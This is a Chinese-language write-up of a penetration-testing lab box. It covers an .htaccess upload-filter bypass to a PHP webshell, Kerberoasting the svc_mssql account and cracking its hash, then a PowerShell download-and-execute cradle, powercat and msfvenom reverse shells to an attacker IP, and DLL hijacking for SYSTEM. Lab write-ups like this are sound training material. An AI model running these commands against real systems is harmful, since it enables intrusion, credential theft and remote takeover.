

## nmap

扫描速率建议不要太快，国内网络不太好容易丢包扫不全端口


## web

扫目录看看有没有其他信息，其中发现一个有用的uploads目录，应该是用于存储上传文件的


在官网购买票据的时候可以上传文件，没有前端验证，只有后端验证，不允许上传php


并且在这里可以看到中间件和使用的php的版本，所以确定使用的语言就是php，经过尝试应该是只识别php后缀。更改后缀名，截断处理，中间件漏洞都尝试过，可以上传但是无法解析


但是可以上传`.htaccess`，可以使用`.htaccess`解析漏洞，将所有的gif文件解析为php文件，注意这里上传的时候需要将`Content-Type`的值改为`image/jpeg`


然后上传包含php后门代码的gif文件


通过uploads目录访问，就可以成功命令执行



## get-shell

可以直接上传使用php语言写的反弹shell的后门，生成之后上传到靶机，直接访问，本地监听端口即可得到shell


## 提权

### 横向到svc_mssql用户

当前用户目录下没有local.txt，此时还存在另外一个账户`svc_mssql`，该用户应该是`mssql`数据库的服务账户


先请求当前域下的SPN，需要通过[GetUserSPNs.ps1](./https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)脚本，上传到靶机之后导入


得到了SPN就可以去请求服务票据，导出其哈希值，可以使用的工具有`Rubeus`


也可以使用[Invoke-Kerberoast.ps1](./https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

```
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -outputFormat Hashcat
```


需要对导出的hash值的内容格式做处理，将所有空格和换行替换为空

```
在vim中有替换功能
:%s/ //g
:%s/\n//g
```

然后使用`hashcat`，`john`等工具就可以破解

```
 hashcat -m  13100 --force -a 0 password.txt /usr/share/wordlists/rockyou.txt
```

最终破解的密码为`trustno1`

使用`crackmapexec`爆破`smb`和`winrm`，`svc_mssql`用户可以访问`smb`但是不能使用`winrm`远程连接，访问`smb`之后也没有发现有用的信息


那就需要在已经得到shell的命令行中直接切换用户

需要使用的脚本：https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1

[powercat/powercat.ps1](./https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

用法：

```
PS> import-module ./Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

命令执行反弹shell即可，使用powercat.ps1脚本

PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/powercat.ps1');powercat -c 192.168.45.163 -p 5555 -e cmd"
```


### 提权到管理员权限

`SeManageVolumePrivilege`权限允许用户执行与卷相关的操作，例如碎片整理、挂载或卸载卷。这个权限通常仅限于高度特权账户，如管理员。

可以使用该exe文件来更改`C:/Windows`目录的权限

[Release SeManageVolumeExploit · CsEnox/SeManageVolumeExploit](./https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)


修改之后当前用户对`C:/Windows`可写


生成后门dll文件，此时我们可以将后门dll文件写入C盘目录下，劫持任何程序使用的dll，我们将使用systeminfo 的 tzres.dll，将其写入`C:\Windows\system32\wbem`，然后运行`systeminfo`就会调用恶意的dll，就可以达到反弹shell的目的

```
 msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=4545 -f dll -o tzres.dll
```


